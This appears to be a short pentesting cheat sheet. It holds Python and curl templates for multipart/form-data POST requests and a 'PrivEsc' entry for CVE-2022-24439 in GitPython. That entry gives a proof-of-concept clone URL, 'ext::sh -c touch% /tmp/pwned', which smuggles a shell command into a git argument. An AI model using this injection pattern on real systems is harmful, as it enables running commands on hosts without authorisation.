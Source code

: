 ## Sending multipart/form-data requests

### Python

```python
multipart_form_data = {
            '<keyname>': (None, <data>),
            '<keyname>': ('<filename>', open(<filepath>, r), '<filetype>')
        }

        try:
            r = requests.post(URL, headers=HEADERS, files=multipart_form_data, timeout=0.5)
        except:
            pass
```

### Curl

```bash
curl -s -q -X 'POST' <url> \
      -H 'Host: <host>' \
      -H 'Accept: */*' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -F '<key1>=<value2>' \
      -F '<key2>=@<path-to-file>' \
      -H 'Origin: <origin>' \
      -H 'Connection: close' \
      -H 'Referer: <referer>' \
```

# PrivEsc

## Git

#### CVE-2022-24439:

```
<gitpython::clone> 'ext::sh -c touch% /tmp/pwned'
```

- https://git-scm.com/docs/git-remote-ext
- https://github.com/gitpython-developers/GitPython/issues/1515
- https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
